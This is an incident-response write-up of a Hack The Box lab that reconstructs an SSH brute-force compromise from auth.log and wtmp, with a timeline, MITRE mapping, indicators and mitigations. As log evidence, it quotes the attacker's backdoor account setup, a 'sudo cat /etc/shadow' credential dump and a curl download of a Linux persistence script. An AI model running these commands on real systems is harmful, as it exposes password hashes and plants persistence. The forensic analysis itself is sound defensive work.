

# Brutus Lab  HTB: SSH Brute-Force to Root Compromise (Linux DFIR)

A Confluence server was compromised through its exposed SSH service. This write-up reconstructs the full intrusion from authentication logs: how the attacker got in, what they did, and what they left behind.

> Scenario and artifacts belong to Hack The Box (author: Cyberjunkie). This is my own analysis and write-up of the investigation, but i will not directly answer to the questions, instead i will make a full retrospective investigation of the events, used to respond to que questions.


---

## 1. Executive Summary

On **2024-03-06**, an attacker at **`65.2.161.68`** launched an automated SSH brute-force attack against the server, firing **82 failed attempts in about 11 seconds** against five usernames. The attack guessed the **`root`** password.

About a minute later the attacker logged back in **manually**, created a backdoor account (**`cyberjunkie`**), added it to the **`sudo`** group, and logged out. They then reconnected as the new user, read **`/etc/shadow`** with `sudo`, and downloaded the **`linper.sh` script** (a Linux persistence toolkit) from GitHub.

| | |
|---|---|
| **Initial access** | SSH password brute force against `root` |
| **Persistence** | New local account with sudo rights |
| **Credential access** | `sudo cat /etc/shadow` |
| **Tooling** | `sudo curl` of `linper.sh` from GitHub |
| **Total attacker dwell time in the log** | ~8 minutes (06:31:31 to 06:39:39 UTC) |

---

## 2. Artifacts and Method

| Artifact | Description | Used for |
|---|---|---|
| `auth.log` | Linux authentication log: sshd, sudo, cron, user management | Brute force, logins, persistence, command evidence |
| `wtmp` | Binary record of terminal logins and logouts | Exact time the interactive terminal opened |

`wtmp` is binary, so it was parsed with `utmp.py` (works across CPU architectures, unlike `last`):

```bash
python3 utmp.py -o wtmp.out wtmp
cat wtmp.out | grep 65.2.161.68
```

> **Timezone note:** `utmp.py` prints timestamps in the *analyst's* timezone, not the server's. My analysis system was set to UTC (verified with `date`), so no conversion was needed. All times in this report are **UTC**.

**Useful `auth.log` search terms**

| Goal | Search for |
|---|---|
| Brute force | `Invalid user`, `Failed password` |
| Successful login | `Accepted password` |
| Session tracking | `New session`, `session closed` |
| Persistence | `useradd`, `usermod`, `groupadd` |
| Command execution | `sudo:` and `COMMAND=` |

First look at the log: mostly routine `cron` sessions for the `confluence` service account, which gives a clean baseline to spot anomalies against.


---

## 3. Investigation

### 3.1 Brute-force attack (T1110.001)

A burst of `Invalid user` and `Failed password` entries from a single IP, all within a few seconds. No human types credentials that fast, which points to automation (Hydra, Medusa or similar). The server even began throttling connections (`MaxStartups`) and dropped 21 of them.


Confirmed against the raw log:

| Metric | Value |
|---|---|
| Source IP | `65.2.161.68` |
| Failed attempts | 82 (48 `Failed password` + 34 `Invalid user`) |
| Window | 06:31:31 to 06:31:42 (~11 s) |
| Usernames tried | `server_adm` (12), `svc_account` (11), `admin` (10), `backup` (9), `root` (6) |

### 3.2 The brute force succeeds: `root` (T1078.003)

At **06:31:40** the log shows `Accepted password for root` from the attacker IP. The session (ID 34) opens and closes in the **same second**, so it was the tool confirming a valid credential, not a person using it.


### 3.3 Manual login (T1021.004)

At **06:32:44** the attacker returns with the valid password and logs in by hand, with a new session (ID **37**).


`auth.log` records when the password was accepted. `wtmp` records when the **interactive terminal** was actually created, so it is the better source for "when did they start working":

The session ID is read from the `systemd-logind` line right after `session opened`:


### 3.4 Persistence: backdoor account (T1136.001, T1098.007)

Inside the root session the attacker created a group and user, set a password, filled in account details, and added the user to `sudo`:

```
06:34:18  groupadd  new group: name=cyberjunkie, GID=1002
06:34:18  useradd   new user: name=cyberjunkie, UID=1002, home=/home/cyberjunkie, shell=/bin/bash
06:34:26  passwd    password changed for cyberjunkie
06:34:31  chfn      changed user 'cyberjunkie' information
06:35:15  usermod   add 'cyberjunkie' to group 'sudo'
```


The `from=/dev/pts/1` field on the `useradd` line ties the command to the attacker's terminal from 3.3.

Mapping to MITRE: the account is local to the host, so the sub-technique is **T1136.001 Create Account: Local Account**.


### 3.5 First session ends

The root session 37 closed at **06:37:24**, after about 4 minutes 40 seconds.


### 3.6 Post-exploitation as the backdoor user (T1003.008, T1105)

Ten seconds later (**06:37:34**) the attacker logs in as `cyberjunkie` (session 49) and uses `sudo`. Although `auth.log` is not a command-audit log, every `sudo` command is recorded:

| Time | Command (as root via sudo) | Purpose |
|---|---|---|
| 06:37:57 | `/usr/bin/cat /etc/shadow` | Dump password hashes |
| 06:39:38 | `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` | Download `linper.sh`, a Linux persistence toolkit |


> The log proves the script was **downloaded**. It does not show it being executed or saved, so I make no claim about that. Shell history and file-system timelines would be the next artifacts to check.

---

## 4. Timeline of Events

| Time | Event |
|---|---|
| 06:31:31 | Brute force begins from `65.2.161.68`; sshd starts `MaxStartups` throttling |
| 06:31:33 to 06:31:42 | 82 failed attempts against `admin`, `backup`, `server_adm`, `svc_account`, `root` |
| 06:31:40 | **`root` password guessed**; automated session 34 opens and closes in the same second |
| 06:32:39 |  Throttling ends (21 connections dropped) |
| 06:32:44 |  **Manual root login** from `65.2.161.68` (session 37) |
| 06:32:45 |  **Interactive terminal `pts/1` opened** |
| 06:34:18 |  Group and user `cyberjunkie` created |
| 06:34:26 |  Password set for `cyberjunkie` |
| 06:34:31 |  User details modified (`chfn`) |
| 06:35:15 | `cyberjunkie` added to `sudo` group |
| 06:37:24 | Root session 37 ends |
| 06:37:34 | **Login as `cyberjunkie`** (session 49, ~06:37:35 in `wtmp`) |
| 06:37:57 | `sudo cat /etc/shadow` |
| 06:39:38 |  `sudo curl` downloads `linper.sh` from GitHub |

---

## 5. MITRE ATT&CK Attack Chain



| # | Tactic | Technique | Evidence | Time |
|---|---|---|---|---|
| 1 | Credential Access | **T1110.001** Brute Force: Password Guessing | 82 failed SSH logins from one IP | 06:31:31 |
| 2 | Initial Access | **T1078.003** Valid Accounts: Local Accounts | `Accepted password for root` | 06:31:40 |
| 3 | Initial Access / Lateral Movement | **T1021.004** Remote Services: SSH | Manual root session 37, `pts/1` in `wtmp` | 06:32:44 |
| 4 | Persistence | **T1136.001** Create Account: Local Account | `useradd name=cyberjunkie` | 06:34:18 |
| 5 | Privilege Escalation / Persistence | **T1098.007** Account Manipulation: Additional Local or Cloud Groups | `usermod add 'cyberjunkie' to group 'sudo'` | 06:35:15 |
| 6 | Credential Access | **T1003.008** OS Credential Dumping: /etc/passwd and /etc/shadow | `sudo ... cat /etc/shadow` | 06:37:57 |
| 7 | Command and Control | **T1105** Ingress Tool Transfer | `sudo ... curl .../linper.sh` | 06:39:38 |

> Technique choices beyond the HTB questions (rows 3, 5, 6, 7) are my own mapping from the log evidence.

---

## 6. Indicators of Compromise

| Type | Value | Context |
|---|---|---|
| IPv4 | `65.2.161.68` | Brute force and all attacker sessions |
| Account | `cyberjunkie` (UID/GID 1002, sudo) | Backdoor account |
| Compromised account | `root` | Password guessed over SSH |
| URL | `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` | Downloaded post-exploitation script |
| Sessions | `34` (tool), `37` (manual root), `49` (`cyberjunkie`) | `systemd-logind` |
| Hosts | `ip-172-31-35-28` / `172.31.35.28` | Victim server |

---

## 7. Additional Observation

Not part of the original questions, but worth flagging in a real case. At **06:19:54**, about 12 minutes **before** the attack, `root` logged in by **password** from a different IP, `203.101.190.9` (session 6), right after an EC2 Instance Connect key lookup failed. I found no matching session-close entry in the log. This could be an administrator, but a root password login from an unrelated address on an internet-facing host should be verified, and it suggests root password login was already enabled and was regularly used.

---

## 8. Recommendations and Mitigation

- **Disable direct root SSH login** (`PermitRootLogin no`) and use named admin accounts with `sudo`.
- **Disable password authentication** (`PasswordAuthentication no`) and require SSH keys.
- **Rate-limit and ban** repeated failures with `fail2ban` or similar, and restrict SSH by source IP or VPN.
- **Alert on account changes:** `useradd`, `usermod -aG sudo` and edits to `/etc/shadow` access should page someone.
- **Alert on bursts of failed logins** followed by a success from the same IP.
- **Enable command auditing** (`auditd`) so activity is not limited to `sudo` entries.
- **Respond:** block the IP, remove `cyberjunkie`, rotate all credentials (assume `/etc/shadow` hashes are cracked), and review the host for anything `linper.sh` may have touched.


## 9. Lessons Learned

- **Speed is the signal.** Dozens of attempts within seconds is automation, no matter how the individual lines look.
- **Look for the tool's own success.** A login that opens and closes in the same second is a brute-force tool verifying a hit.
- **Use both artifacts.** `auth.log` shows authentication, `wtmp` shows when a human actually had a terminal. The one-second gap between them is expected.
- **Watch timezones.** Tools like `utmp.py` use the analyst's local time, so confirm your system timezone before building a timeline.
- **Attackers live off the land.** `useradd`, `usermod` and `sudo` need no extra malware, yet they leave clear traces in `auth.log`.
